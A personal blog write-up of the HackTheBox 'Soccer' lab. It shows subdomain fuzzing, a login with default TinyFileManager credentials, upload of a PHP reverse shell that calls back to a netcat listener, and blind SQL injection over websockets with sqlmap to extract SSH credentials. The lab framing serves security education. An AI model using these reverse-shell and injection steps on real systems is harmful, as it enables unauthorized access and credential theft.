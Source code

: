 ```yaml
---
layout: post
title: "HackTheBox Write Up - Soccer"
date: 2023-05-03
categories: labs
image: '/assets/images/HTB-logo.png'
tags: [labs, educational, guide]
---
```


### HackTheBox Write Up — Soccer

#### A walkthrough of the ‘Soccer’ box from HackTheBox

![](/assets/images/1jnFpt4i0LUVaVrlqP1E4Gw.png)
#### Scanning & Enumeration

As usual, the first step is to start with an Nmap scan. This revealed ports 22 (SSH), 80 (HTTP), and 9091.

Next I navigated to the webpage, which didn’t have a lot of options available to investigate. Next up is directory busting.

#### **Directory Busting**

![](/assets/images/1N0jZonUbSbE5ypKpdAI5pA.png)

`ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://soccer.htb:80/FUZZ`

Since I’m currently studying for the PNPT from TCM Security and the training is fresh in my mind, I’ll be using FFuF for directory enumeration.

The only real result that came back was the subdomain: `http://soccer.htb/tiny` , which results in a login page that can potentially be brute forced.

#### Initial Access

Before spending time attempting to brute force, let’s first do some OSINT by doing a quick Google search on default credentials for TinyFileManager.

This pays off and saves us some time as the default admin username and password worked and we’re logged in.

![](/assets/images/1CvlPP484HahwYUCEHd80IA.png)

Digging through the ‘Tiny File Manager’ web portal, the first thing that stands out to me is the ‘Upload’ section. This is just asking to be abused and can potentially lead to a reverse shell.

\*Take notice of the permissions set for each file and folder. The ‘/tiny/uploads’ directory is the only folder we have permission to write to.

I decided to use [this](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) code for the reverse shell from pentestmonkey, which I’ve nicknamed catshell.php for this lab (don’t ask me why).

Be sure to adjust the IP and port before saving the file. Below is a snip it from the code showing where these changes are made.

```
set_time_limit (0);  
$VERSION = "1.0";  
$ip = '127.0.0.1';  // CHANGE THIS  
$port = 1234;       // CHANGE THIS  
$chunk_size = 1400;  
$write_a = null;  
$error_a = null;  
$shell = 'uname -a; w; id; /bin/sh -i';  
$daemon = 0;  
$debug = 0;
```

Next, I set up a listener using netcat:

```
nc -lvnp 4444
```

All we have to do is upload this file and then hit the ‘Direct Link’ button under the ‘Actions’ section. With this, we gain a shell.

The first thing to do is use the following command to get bash:

```
python3 -c "import pty;pty.spawn('/bin/bash')" 
```

Checking the user permissions next, we see our user www-data has low privileges.

![](/assets/images/1Oxn6mA14oA-l13zkoxcUiQ.png)

With this shell we can enumerate further. Referencing the previous findings on port 80/http, I list out the contents of the /etc/nginx/site-enabled directory using the following command:

```
ls /etc/nginx/site-enabled
```

This reveals a file called `soc-player.htb`. When opening this file using cat, it reveals the server\_name: `soc-player.soccer.htb`

I need this to reflect in the /etc/hosts file so I input it, replacing the previous soccer.htb entry.

Navigating to this newly found site we have more options to explore. We now have a few directory listings on the header menu: “Match”, “Login”, “Sign Up”.

I neglected to get a screenshot of this page. But if you can imagine a very simple webpage with some basic directory listings, a robot (or I suppose a prosthetic) soccer leg kicking a flaming soccer ball, and some lorem ipsum giving a brief history of the entire sport of soccer; then you’re up to speed.

Let’s go ahead and sign up. This presents us with one free ticket voucher and an input field where we can check the validity of our ticket ID. This may prove to be an interesting foothold to exploit.

#### Privilege Escalation

Next, I investigate this newly found subdomain further by inspecting the webpage which reveals that Websockets are in use here. Researching possible SQLi for Websockets, we have one that should work found [here](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) that actually automates this.

We’ll need to adjust the parameters for this script. Ensure the “`ws_server`” parameter has the correct URL and the “`data`” contains the “id” parameter as this is what we are using for authentication:

![](/assets/images/1xXN6XCi2hU6M2zAJPIKiwA.png)

Following the directions of the author of this script, I used the following sqlmap command. I just adjusted the tags at the end to narrow down the search a bit. This took a very long time, so keep that in mind if you’re following along.

![](/assets/images/15XQszEZOS4oql-8rlTp4ww.png)

After a long wait and a nice coffee break, SQLMap yielded Database credentials for soccer\_db.

![](/assets/images/1UhU4FA7po_4OcbA2bYQadQ.png)

Using these credentials to establish an SSH connection worked like a charm, so I just navigated to the root folder to obtain the ‘user.txt’ flag.

![](/assets/images/1-_iENcZpdkR5fCBdnlnO5w.png)
#### GAME OVER



By [darkyolks](https://darkyolks.com) originally published on May 3, 2023.

